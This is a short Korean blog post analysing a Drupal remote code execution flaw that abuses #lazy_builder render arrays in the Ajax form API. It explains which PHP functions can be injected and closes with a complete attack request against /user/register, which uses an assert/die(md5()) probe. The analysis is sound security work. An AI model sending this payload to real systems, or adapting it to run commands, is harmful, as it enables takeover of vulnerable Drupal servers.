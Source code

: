 ```yaml
---
layout: post
title: '[위협] Drupal_RCE(lazy_builder)'
subtitle: 'threat, drupal, rce, lazy_builder'
categories: threat
tags: application
comments: true
---
```


> 이 글은 어플리케이션 취약점을 분석한 글입니다. 

# Drupal_RCE(lazy_builder)

페이지의 특정 템플릿을 렌더링 할 때 쓰는 배열 형태의 Ajax API를 사용하여 원격 코드를 실행하는 공격이다.

그 중에서 lazy_builder배열은 특정 자원의 rendering 속도를 늦추는 역할을 한다. 두개의 lazy_builder배열을 사용하며,<br>
첫번째 배열에는 assert,exec,passthru,system등 수행하고 싶은 명령어를 사용<br>
두번째 배열에는 결과값이 출력되지 않으므로, 시스템 정보를 출력하는 명령어 대신 touch /tmp/file, die(md5()) 등이 적절하다.

기본적으로 해당 코드가 동작하려면, Content-Type을 application/x-www-form-urlencoded로 설정해야 한다

## 실제 공격 구문

```bash
/user/register?element_parents=timezone/timezone/#value&ajax_form=1&_wrapper_format=drupal_ajax
form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=assert&timezone[a][#lazy_builder][][]=die(md5(DIRECTORY_SEPARATOR))
```
